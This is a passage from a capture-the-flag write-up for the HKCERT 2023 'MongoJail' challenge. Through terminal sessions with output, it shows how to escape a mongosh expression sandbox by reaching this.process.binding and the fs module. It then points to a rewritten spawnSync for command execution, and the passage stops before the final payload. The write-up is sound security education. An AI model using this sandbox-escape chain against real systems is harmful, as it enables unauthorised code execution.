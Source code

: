 **Then, in the `global` object, we can get the `process` object, which is the current process (mongosh) object:**
```shell
┌[siunam♥Mercury]-(~/ctf/HKCERT-CTF-2023/pwn/MongoJail)-[2023.11.12|22:09:57(HKT)]
└> nc chal.hkcert23.pwnable.hk 28225
Enter math expression:
this.process
process {
  version: 'v20.6.1',
  versions: {
    node: '20.6.1',
    acorn: '8.10.0',
[...]
```

**Next, in the `process` object, there's a `binding` function:**
```shell
┌[siunam♥Mercury]-(~/ctf/HKCERT-CTF-2023/pwn/MongoJail)-[2023.11.12|22:10:06(HKT)]
└> nc chal.hkcert23.pwnable.hk 28225
Enter math expression:
this.process.binding
[Function: binding]
```

**Which allows us to find a module like `fs`:**
```shell
┌[siunam♥Mercury]-(~/ctf/HKCERT-CTF-2023/pwn/MongoJail)-[2023.11.12|22:10:37(HKT)]
└> nc chal.hkcert23.pwnable.hk 28225
Enter math expression:
this.process.binding('fs')
{
  access: [Function: access],
  close: [Function: close],
  open: [Function: open],
  openFileHandle: [Function: openFileHandle],
  read: [Function: read],
  readBuffers: [Function: readBuffers],
  fdatasync: [Function: fdatasync],
  fsync: [Function: fsync],
  rename: [Function: rename],
  ftruncate: [Function: ftruncate],
  rmdir: [Function: rmdir],
  mkdir: [Function: mkdir],
[...]
```

In the blog post that we've mentioned, we can execute system commands without `require` by using the rewrote version of `spawnSync` function in `child_process` module from [https://gist.github.com/CapacitorSet/c41ab55a54437dcbcb4e62713a195822](https://gist.github.com/CapacitorSet/c41ab55a54437dcbcb4e62713a195822).

**However, we need to make some changes:**
1. Change `process.binding()` to `this.process.binding()`
2. Remove `console.log()`
